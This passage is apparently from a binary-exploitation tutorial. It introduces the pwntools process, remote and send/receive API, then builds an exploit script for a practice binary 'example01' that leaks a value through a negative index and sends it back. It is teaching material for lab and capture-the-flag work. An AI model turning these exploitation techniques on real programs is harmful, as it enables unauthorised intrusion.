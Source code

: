The API for a process and remote is generally the same, so it is easy to solve the remote once you have a working solution locally. Sometimes you will see something like this in a pwntools script:
```python
if '--remote' in sys.argv:
    p = remote('127.0.0.1', TODO: Port)
else:
    p = process('./example01')
``` 

Now that we have a process in pwntools, we can interact with it. Some useful tools to read and write to a program are:
```python
# Write To Process
p.send(message)
p.sendline(line) # Appends a '\n' to your input
p.sendlineafter(b' >', line)

# Read From Process
p.recv() # Recieves until latest character
p.recvline()
p.recvuntil(b' >')
p.recvall() # Recieves until an EOF is reached

# Manual Control
p.interactive()
```

Using something like `p.interactive()` is useful once you successfully exploit a binary and have a shell that you need to navigate around in. More tools are available, such as `p.recvline_regex` and many others, but the above basics should get you far enough. If you need more, check the docs.

PRIVATE NOTE: Start with 3 line program, ending with p.interactive(), and add code to the middle

In our case, we want to exploit both the vulnerabilities we found when reading the code. 

### Exploiting Vuln #1

To exploit the first vulnerability, we need to request a '-1' index to be read from. This is as simple as sending '-1' as our first input.
```python
from pwn import *
p = process('./example01')
p.sendline('-1')
p.interactive()
```

This leaks the value, but now we need to read it, and send it back to the program in the next line. It also tends to be good practice to recieve inputs up to when you need to send your input, so that you can work on smaller strings. Another good practice is to always send and recieve bytes objects (in the format `b''`), since python3 occasionally has undesirable behavior with unicode in strings.
```python
from pwn import *
import re

# Exploit Vuln #1
p = process('./example01')
p.recvuntil(b'> ')  # Recieve until prompted for input
p.sendline(b'-1')
response = p.recvuntil(b'> ')
leak = re.findall(br"(\d+)$", response, flags=re.MULTILINE)[0]
p.sendline(leak)
print('leak: {}'.format(leak))
p.interactive()
```
